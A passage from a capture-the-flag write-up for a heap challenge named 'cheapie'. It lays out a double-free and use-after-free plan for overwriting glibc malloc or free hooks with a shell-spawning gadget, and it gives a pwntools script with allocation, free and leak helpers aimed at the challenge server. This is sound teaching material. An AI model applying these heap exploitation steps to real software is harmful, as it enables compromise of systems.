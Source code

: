 ## Exploiting
I started with the usual heap-exploit methodology : using the double-free to gain a write-what-where primitive in order to write the address of a "one gadget" (a gadget that instantly pops a shell), in the `__malloc_hook` or in `__free_hook`. Since these are located in the libc, we've got to be...

### ... Leaking the libc
Using the read-after-free, we can quickly leak the address of the libc by linking a chunk inside the unsorted bin and reading it. We can do so with :
```python
#!/usr/bin/python3

from pwn import *

exe = ELF("./cheapie")
libc = ELF("./libc-2.23.so")
ld = ELF("./ld-2.23.so")

gs = """
continue
"""

def start():
    if not args.REMOTE:
        p = process([ld.path, exe.path], env={"LD_PRELOAD": libc.path})
        gdb.attach(p, "continue\n")
    else:
        p = remote("challenges2.france-cybersecurity-challenge.fr", 4006)
    return p

def malloc(n, data) -> int:
    """
    mallocs `n` bytes, write `data` to the allocated chunk and the address of the user data
    """
    io.sendline("1")
    io.sendlineafter("Amount in bytes [16-1024]: ", f"{n}")
    io.recvuntil(f"malloc({n}) = ")
    chunk_addr = int(io.recvline().strip()[2:], 16)
    io.recvline()
    io.send(data)
    io.recvuntil(">>> ")
    return chunk_addr

def free(addr: int):
    """
    frees `addr`
    """
    io.sendline("2")
    io.sendlineafter("Address to free: ", hex(addr))
    io.recvuntil(">>> ")

def read(addr: int) -> bytearray:
    """
    reads `addr` and returns the content in the form of a bytearray
    """
    addr = hex(addr)
    io.sendline("3")
    io.sendlineafter("Address to show (16-byte sneak peak): ", addr)
    data = io.recvline()
    data = data.strip()
    data = data.replace(b" ", b"")
    io.recvuntil(">>> ")
    return bytearray.fromhex(data.decode("utf8"))
```